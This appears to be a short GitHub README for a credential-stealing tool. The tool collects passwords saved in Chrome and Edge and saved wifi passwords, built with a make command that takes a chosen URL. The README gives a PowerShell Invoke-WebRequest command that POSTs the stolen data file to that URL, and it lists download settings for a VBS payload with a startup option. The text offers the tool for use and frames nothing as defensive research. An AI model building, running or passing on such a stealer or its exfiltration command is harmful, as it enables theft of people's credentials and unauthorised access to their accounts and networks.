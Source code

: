 # Objective

Allows you to recover passwords stored in Chrome and Edge browsers. It also allows you to recover saved wifi passwords.

# Build

The script to use must be generated with the make command, specifying the URL which will be used to recover the passwords:

    make URL=http://example.com

# Data recovery

The data will be sent to the URL specified during make with the following powershell command:

    Invoke-WebRequest -Uri http://example.com -Method POST -InFile /tmp/data

# Download payload settings

* __URL__ : Direct download URL to the ``out.vbs`` script.
* __STARTUP__ : Not set.
